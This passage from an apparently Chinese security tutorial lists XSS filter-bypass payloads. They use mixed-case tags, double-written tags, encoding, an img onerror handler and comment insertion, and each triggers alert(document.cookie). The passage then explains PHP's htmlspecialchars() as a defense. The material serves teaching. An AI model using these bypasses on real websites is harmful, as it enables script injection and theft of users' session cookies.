 大小写绕过：

```
<sCRipt>alert(document.cookie)</sCRipt>
```

双写绕过：

```
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
```

编码绕过：

```
将payload进行html编码
```

使用没被过滤的payload：

```
如：<img  src=1  onerror=alert(document.cookie)> 
```

补一个没见过的注释干扰法：

```
<scri<!--test-->pt>alert(test)</scr<!--test-->ipt>
```



### xss之htmlspecialchars

htmlspecialchars():把预定义的字符转换为 HTML 实体

```
htmlspecialchars(string,flags,character-set,double_encode)
预定义的字符是：
& （和号）成为 &
" （双引号）成为 "
' （单引号）成为 '
< （小于）成为 <
> （大于）成为 >
strings:规定要转换的字符串(必选，其余皆为可选)

flags:
可用的引号类型:
ENT_COMPAT - 仅编码双引号(默认)。
ENT_QUOTES - 编码双引号和单引号。
ENT_NOQUOTES - 不编码任何引号。

无效的编码:
ENT_IGNORE - 忽略无效的编码，而不是让函数返回一个空的字符串。应尽量避免，因为这可能对安全性有影响。
ENT_SUBSTITUTE - 把无效的编码替代成一个指定的带有 Unicode 替代字符 U+FFFD（UTF-8）或者 &#FFFD; 的字符，而不是返回一个空的字符串。
ENT_DISALLOWED - 把指定文档类型中的无效代码点替代成 Unicode 替代字符 U+FFFD（UTF-8）或者 &#FFFD;。

character-set：规定了要使用的字符集的字符串；默认为utf-8

double_encode：规定了是否编码已存在的 HTML 实体；为bool型(TRUE/FALSE)

ps:$test = htmlspecialchars($name, ENT_QUOTES);
```

